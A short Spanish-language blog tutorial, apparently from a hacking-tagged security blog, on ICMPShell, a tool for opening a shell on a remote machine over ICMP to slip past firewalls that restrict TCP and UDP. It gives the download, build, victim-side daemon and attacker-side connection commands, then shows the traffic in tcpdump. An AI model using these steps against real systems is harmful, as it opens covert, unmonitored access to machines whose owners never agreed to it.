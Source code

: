 ```yaml
---
title: ICMPShell - Conexiones Inversas mediante ICMP
date: 2024-11-04 09:00:00 
categories: [CIBERSEGURIDAD, HACKING]
tags: [hacking, linux]
description: Una herramienta que permite realizar conexiones inversas a sistemas remotos utilizando el protocolo ICMP
---
```


ICMPShell es una herramienta que permite realizar conexiones inversas a sistemas remotos utilizando el protocolo ICMP (Internet Control Message Protocol).
Este método puede ser útil en situaciones donde el tráfico TCP o UDP esté restringido, ya que algunas configuraciones de firewall no bloquean ni supervisan el tráfico ICMP de la misma forma.
A continuación, se explican los pasos para su instalación y uso.

Es una shell que permite realizar conexiones inversas a equipos remotos haciendo uso del protocolo ICMP.

Es necesario que se descargue desde su repositorio en SourceForge:

    wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz

Nota: La herramienta es compatible únicamente con sistemas Linux, BSD y Solaris.

Primero que nada es necesario desempaquetar el archivo tar que nos queda.

    tar xzf ish-v0.2.tar.gz
    make <sistema>  # [linux,bsd,solaris] Dependiendo de dónde se va a ejecutar.

Para que la pequeña shell funcione, es necesario que se copie y compile en ambos sistemas (cliente y servidor). Del lado del cliente:

    ./ishd -d -p <puerto>

En el lado del atacante:

    ./ish -tr 0 -p <puerto> <ip_victima>

Para una prueba de concepto podemos hacer uso de tcpdump. Con esta herramienta capturaremos las peticiones de tipo icmp_echo_reply (que es como funciona esta shell).

    tcpdump -nni <interface> -e icmp[icmptype] == 0 #Hacemos captura de paquetes de tipo ICMP_ECHO_REPLY.

NOTA: Si realizamos la prueba de concepto en una misma máquina, es posible hacer captura de los paquetes con loopback (interface lo).

Con wireshark es posible hacer lo propio. Algo de info desde Wikiversity.

[https://en.wikiversity.org/wiki/Wireshark/ICMP_Echo](https://en.wikiversity.org/wiki/Wireshark/ICMP_Echo))


